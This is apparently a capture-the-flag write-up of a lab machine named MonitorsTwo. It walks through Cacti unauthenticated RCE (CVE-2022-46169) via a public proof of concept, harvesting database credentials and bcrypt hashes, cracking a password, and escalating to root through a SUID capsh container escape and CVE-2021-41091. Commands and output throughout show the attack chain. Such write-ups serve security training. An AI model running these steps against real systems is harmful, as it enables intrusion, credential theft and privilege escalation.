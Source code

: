 # MonitorsTwo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.78.86
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 23:41 EDT
Nmap scan report for 10.129.78.86
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Another web-based exploit.&#x20;

### Cacti

When we check the web port, we see that it is running Cacti.

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

The version run is actually vulnerable to one unauthenticated RCE exploit, and there are tons of PoCs online to use.

{% embed url="https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit" %}

This has to do with the polling of Cacti, and we just need to modify the exploit to point to our own IP address to get a shell.

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We got a shell on the docker, so the next step is to escape it.&#x20;

### MySQL Passwords

Within the `/` directory, we can find a bash script:

```
www-data@50bca5e748b0:/$ ls -la
ls -la
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Apr 29 22:40 dev
-rw-r--r--   1 root root  648 Jan  5 11:37 entrypoint.sh
```

Here's the content of it:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

So we have a database password and we can enumerate the database. This docker doesn't have `python`, so we cannot spawn a shell via `pty`. Instead, we have to use the `-e` flag to enumerate the database since we don't have a proper shell.

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "show databases" 
<user=root --password=root cacti -e "show databases"
Database
information_schema
cacti
mysql
performance_schema
sys
```

We can extract the hashed password for the users within the database:

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

I ran `john` on the hashes, and managed to crack one of them to get `funkymonkey`.

![](<../../.gitbook/assets/image (9) (6).png>)

With this and a username, we can `ssh` into the machine as `marcus`. Then, grab the user flag.

### CVE-2021-41091 --> Root Shell

Within the `/var/mail` folder, there's some mail for `marcus`:

{% code overflow="wrap" %}
```
marcus@monitorstwo:/var/mail$ cat marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
{% endcode %}

The first 2 vulnerabilities are not relevant, but the last one was rather interesting.&#x20;

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2021-41091" %}

In short, it appears that when dockers are created, some of the SUID binaries are carried over. In that case, we can enumerate the SUID binaries on the machine and find these using LinPEAS:

```
[+] SUID - Check easy privesc, exploits and write perms                                                                    
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                              
strace Not Found                                                                                                           
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```

`capsh` has the SUID binary set, which is not the norm. Based on GTFOBins, we can run this command to spawn a root shell:

```
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Great! Now we are root on the docker. Now, we can find the mounted point of this docker from the main machine, and we can create a `bash` SUID binary to get a shell.&#x20;

First we need to find the mount point using `df`:

```
marcus@monitorstwo:/var/lib/docker$ df
Filesystem     1K-blocks    Used Available Use% Mounted on
udev             1966928       0   1966928   0% /dev
tmpfs             402608    1232    401376   1% /run
/dev/sda2        7054840 4451424   2513656  64% /
tmpfs            2013040       0   2013040   0% /dev/shm
tmpfs               5120       0      5120   0% /run/lock
tmpfs            2013040       0   2013040   0% /sys/fs/cgroup
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm                65536       0     65536   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm                65536       0     65536   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
```

At`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` would bring us to the file system of the docker container. Then, using our root shell on docker, we can just use `chmod u+s /bin/bash` to spawn a SUID binary for the main machine to use.&#x20;

This works because of the CVE allowing for us to create SUID binaries across machines.&#x20;

We can see the SUID `bash` binary here:

<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can get a root shell easily:

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p 
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Rooted!
